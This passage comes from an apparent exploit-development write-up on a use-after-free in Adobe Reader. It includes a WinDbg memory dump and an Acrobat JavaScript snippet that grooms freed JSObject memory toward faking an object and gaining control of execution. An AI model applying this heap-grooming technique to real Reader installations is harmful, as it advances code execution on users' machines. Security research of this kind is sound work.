This 0x48 memory region and its fields are what is going to be freed and reused. Since AdobeReader.exe is a 32bit binary, I can heap spray and know exactly where my controlled data is in memory then I can overwrite this whole memory region with my controlled data and try to find a way to control PC. I failed because

1.  I don’t really know what all these fields are.
2.  I don’t have a memory leak.
3.  Adobe has CFI.

So I turn my attention to the `JSObject` (2nd dword) instead. Also being able to fake a `JSObject` is a very powerful primitive. Unfortunately the 2nd dword is not on the heap. It is in a memory region which is `VirtualAlloc`ed when Adobe Reader starts. One important point to notice is the memory content is not cleared after they are freed.

```
0:000> !address 0c8299e8
                                     
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...

Usage:                  <unknown>
Base Address:           0c800000
End Address:            0c900000
Region Size:            00100000 (   1.000 MB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        0c800000
Allocation Protect:     00000004          PAGE_READWRITE

Content source: 1 (target), length: d6618


```

I realized that `ESObjectCreateArrayFromESVals` and `ESObjectCreate` also allocates into this area. I used the `currentValueIndices` function to call `ESObjectCreateArrayFromESVals`:

```
f = this.addField("f" , "listbox", 0, [0,0,0,0]);
t = Array(32)
for(var i=0; i<32; i++) t[i] = i
f.multipleSelection = 1
f.setItems(t)
f.currentValueIndices = t

for(var j=0; j<THRESHOLD_SZ; j++) f.currentValueIndices


```
